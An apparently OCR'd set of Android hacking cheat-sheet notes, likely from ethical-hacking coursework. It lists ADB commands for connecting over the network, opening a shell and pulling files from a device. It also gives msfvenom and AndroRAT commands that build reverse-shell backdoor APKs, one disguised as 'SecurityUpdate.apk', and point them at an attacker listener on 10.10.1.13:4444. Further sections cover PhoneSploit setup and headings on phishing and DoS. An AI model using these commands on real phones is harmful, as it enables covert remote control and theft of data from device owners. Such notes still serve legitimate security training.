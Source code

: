 
1. ADB:
	1. adb start-server
	2. adb devices
	3. adb connect < ip >:5555
	4. adb shell
	5. adb pull /sdcard/... ~/Downloads/...
2. Android hacking with msfvenom
	1. msfvenom –p android/meterpreter/reverse_tcp LHOST=Localhost IP LPORT=LocalPort R > android_shell.apk
		1. msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 LPORT=4444 –f raw –o Backdoor.apk
	2. python3 -m http.server 8080
3. Android hacking with phonesploit over ADB
	1. nmap -sS -p- -Pn
	2. apt install adb
	3. git clone https://github.com/aerosol‐can/PhoneSploit
	4. cd PhoneSploit
	5. pip3 install colorama
	6. python3 phonesploit.py
4. Phishing on Android with Social Engineering Toolkit
5. DoS attack from Android using LOIC
6. Android hacking using AndroRAT
	1. python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk
	2. python3 androRAT.py --shell -i 0.0.0.0 -p 4444
	3. Other tools:
		1. NetCut (https://www.arcai.com)
		2. drozer (https://labs.f-secure.com)
		3. zANTI (https://www.zimperium.com)
		4. Network Spoofer (https://www.digitalsquid.co.uk)
		5. DroidSheep (https://droidsheep.info
7. Malicioius App using Online Android Analyzers
	1. Sixo Online APK Analyzer.
	2. X-Ray 2.0 (https://duo.com)
	3. Vulners Scanner (https://play.google.com)
	4. Shellshock Scanner
	5. Zimperium (https://play.google.com)
	6. Yaazhini (https://www.vegabird.com)
	7. Quick Android Review Kit (QARK) (https://github.com)